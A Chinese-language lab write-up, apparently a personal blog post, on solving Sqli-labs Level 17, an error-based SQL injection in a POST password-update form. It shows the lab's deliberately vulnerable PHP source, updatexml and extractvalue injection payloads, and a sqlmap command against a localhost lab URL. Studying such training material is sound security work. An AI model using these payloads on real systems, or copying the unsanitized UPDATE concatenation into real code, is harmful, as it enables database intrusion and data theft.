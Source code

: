 ```yaml
---
 title: Sqlilabs通关笔记(17)UPDATE更新注入
 date: 2020-01-07 10:49:29
 tags: SQL注入
 categories: SQL注入
---
```


## 第十七关 基于POST错误的更新
![2020-1-7-11-11-19](https://raw.githubusercontent.com/bbkali/picbad/master/2020-1-7-11-11-19)

### 注入点判断
<!--more-->
1. 在passwd直接加反斜杠有报错 
> uname=admin&passwd=admin\&submit=Submit
2. 可以在passwd参数上尝试报错注入
3. 界面输入框好像是更新密码的窗口，猜测是对用户输入的密码没有进行检测过滤

### 源码分析

```php
<?php
//including the Mysql connect parameters.
include("../sql-connections/sql-connect.php");
error_reporting(0);

function check_input($value)
	{
	if(!empty($value))
		{
		// truncation (see comments)截断15位
		$value = substr($value,0,15);
		}

		// Stripslashes if magic quotes enabled 如果打开了魔法开关，会自动转义
		if (get_magic_quotes_gpc())
			{
                // 将反斜杠去掉
			$value = stripslashes($value);
			}

		// Quote if not a number
		if (!ctype_digit($value))
			{
                // 自动转义
			$value = "'" . mysql_real_escape_string($value) . "'";
			}
		
	else
		{
		$value = intval($value);
		}
	return $value;
	}

// take the variables
if(isset($_POST['uname']) && isset($_POST['passwd']))

{
//making sure uname is not injectable
$uname=check_input($_POST['uname']);  

$passwd=$_POST['passwd'];


//logging the connection parameters to a file for analysis.
$fp=fopen('result.txt','a');
fwrite($fp,'User Name:'.$uname."\n");
fwrite($fp,'New Password:'.$passwd."\n");
fclose($fp);


// connectivity 
@$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";

$result=mysql_query($sql);
$row = mysql_fetch_array($result);
//echo $row;
	if($row)
	{
  		//echo '<font color= "#0000ff">';	
		$row1 = $row['username'];  	
		//echo 'Your Login name:'. $row1;
		$update="UPDATE users SET password = '$passwd' WHERE username='$row1'";
		mysql_query($update);
  		echo "<br>";
	
	
	
		if (mysql_error())
		{
			echo '<font color= "#FFFF00" font size = 3 >';
			print_r(mysql_error());
			echo "</br></br>";
			echo "</font>";
		}
		else
		{
			echo '<font color= "#FFFF00" font size = 3 >';
			//echo " You password has been successfully updated " ;		
			echo "<br>";
			echo "</font>";
		}
	
		echo '<img src="../images/flag1.jpg"   />';	
		//echo 'Your Password:' .$row['password'];
  		echo "</font>";
	


  	}
	else  
	{
		echo '<font size="4.5" color="#FFFF00">';
		//echo "Bug off you Silly Dumb hacker";
		echo "</br>";
		echo '<img src="../images/slap1.jpg"   />';
	
		echo "</font>";  
	}
}

?>
```

1. 查看源码可知有个过滤函数check_input，其过滤步骤是
    - substr($value,0,15) 截断到15位
    - 单引号、双引号、反斜杠、null自动用反斜杠转义
    - stripslashes()去掉多余的反斜杠

2. 源码看passwd并没有使用过滤函数过滤,因而可以进行变量可控
> $passwd=$_POST['passwd'];

3. 是通过update进行一个拼接，且会打印错误信息

> $update="UPDATE users SET password = '$passwd' WHERE username='$row1'";

4. 报错注入无疑了，直接上payload

> uname=admin&passwd=' and (updatexml(1,concat(0x7e,(select user()),0x7e),1))#&submit=Submit

> uname=admin&passwd=' and extractvalue(null,concat(0x7e,database(),0x7e))#&submit=Submit


### SQLMAP注入

> sqlmap -u "http://127.0.0.1/sqlilabs2/Less-17/" --data "uname=admin&passwd=woshiadmin&submit=Submit" -p passwd --dbms mysql --threads 10 --method POST --flush-session --fresh-queries --level 1 --risk 1 --technique E --dbs

* **--data:指定请求信息**

* **-p:指定参数**

* **--dbms:指定后端数据库**

* **--threads:指定并发线程数**

* **--method:指定请求方式**

* **--flush-session:清除session**

* **--fresh-queries:发起新的请求**

* **--level 1:尝试POST和GET注入**

* **--risk 1:仅测试常见用例**

* **--technique E:仅测试报错注入方式**